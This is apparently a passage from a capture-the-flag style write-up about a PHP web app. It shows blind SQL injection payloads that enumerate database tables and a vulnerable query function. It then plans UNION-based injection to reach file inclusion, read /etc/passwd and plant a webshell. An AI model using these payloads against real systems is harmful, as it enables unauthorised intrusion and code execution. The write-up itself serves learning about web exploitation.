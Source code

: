 So `id=465` means that the `name` paramter is `about`. I used the earlier blind SQLI to enumerate `idname`:

```
465'AND (substr((SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='idname'),{i},1)) = '{j}' -- -

id,name,disabled
```

Interesting. So `about` and `main` are possible names to be returned as `$tpl`. Let's take a look at the second function that uses this:

```php
function getPathFromTpl($conn,$tpl) {
        global $debug;
        $sql = "SELECT path from filepath where name = '".$tpl."'";
        if ($debug) { echo "sqlpath: $sql<br>\n"; }
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                        $ret = $row['path'];
                }
        }
        if ($debug) { echo "retpath: $ret<br>\n"; }
        return $ret;
}
```

I enumerated `filepath` too, since I could control `$tpl` in theory. I enumerated this `filepath` table. Interestingly, it just contained `<HASH>.php` file names:

```
465'AND (substr((SELECT group_concat(path) FROM filepath),{i},1)) = '{j}' -- -

787c75233b93aa5e45c3f85d130bfbe7.php...
```

This make sense, and the filename is then returned as `$inc` to be used in `include`. This opens a path for PHP file execution via `include`, and this is probably the way I have to get a shell.

To control this, I want the query to be something like:

```sql
SELECT path from filepath where name = ez UNION select /etc/passwd;
```

To bypass the first query and make it process only the query after `UNION`, can include an error like 1=2.

```sql
SELECT path from filepath where name = ez AND 1=2 UNION select /etc/passwd;
```

### Exploitation

Here's the attack path:
1. Bypass `id` checks (easy)
2. Control `$tpl` somehow
3. Somehow write a webshell or code into the machine
4. Access the webshell via SQL Injection to trigger LFI by controlling `$inc`.
